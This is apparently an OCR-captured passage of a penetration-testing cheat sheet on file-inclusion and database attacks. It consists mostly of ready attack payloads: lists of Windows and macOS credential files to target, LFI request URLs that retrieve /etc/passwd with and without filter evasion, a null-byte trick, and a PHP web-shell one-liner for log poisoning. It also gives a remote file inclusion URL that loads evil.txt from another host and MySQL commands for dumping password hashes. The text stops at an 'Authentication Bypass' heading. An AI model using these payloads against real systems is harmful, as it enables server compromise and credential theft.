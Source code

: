     -   LFI Windows Files:  
        %SYSTEMROOT%\\repair\\system  
        %SYSTEMROOT%\\repair\\SAM  
        %SYSTEMROOT%\\repair\\SAM  
        %WINDIR%\\win.ini  
        %SYSTEMDRIVE%\\boot.ini  
        %WINDIR%\\Panther\\sysprep.inf  
        %WINDIR%\\system32\\config\\AppEvent.Evt

    -   LFI OSX Files:  
        /etc/fstab  
        /etc/master.passwd  
        /etc/resolv.conf  
        /etc/sudoers  
        /etc/sysctl.conf

    -   LFI - Download passwords file  
        [*http://$ip/index.php?page=/etc/passwd*](about:blank)  
        [*http://$ip/index.php?file=../../../../etc/passwd*](about:blank)

    -   LFI - Download passwords file with filter evasion  
        [*http://$ip/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd*](about:blank)

    -   Local File Inclusion - In versions of PHP below 5.3 we can
        terminate with null byte  
        GET
        /addguestbook.php?name=Haxor&comment=Merci!&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00

    -   Contaminating Log Files `<?php echo shell_exec($_GET['cmd']);?>`

    -   For a Remote File Inclusion look for php code that is not  sanitized and passed to the PHP include function and the php.ini
        file must be configured to allow remote files
        
        */etc/php5/cgi/php.ini* - "allow_url_fopen" and "allow_url_include" both set to "on"  
        
        `include($_REQUEST["file"].".php");`

    -   Remote File Inclusion  
    
         `http://192.168.11.35/addguestbook.php?name=a&comment=b&LANG=http://192.168.10.5/evil.txt `
        
         `<?php echo shell\_exec("ipconfig");?>`

-   <span id="_mgu7e3u7svak" class="anchor"><span id="_Toc480741820" class="anchor"></span></span>Database Vulnerabilities
    ----------------------------------------------------------------------------------------------------------------------

    -   Grab password hashes from a web application mysql database called “Users” - once you have the MySQL root username and        password  
    
              mysql -u root -p -h $ip
              use "Users"  
              show tables;  
              select \* from users;

    -   Authentication Bypass  
    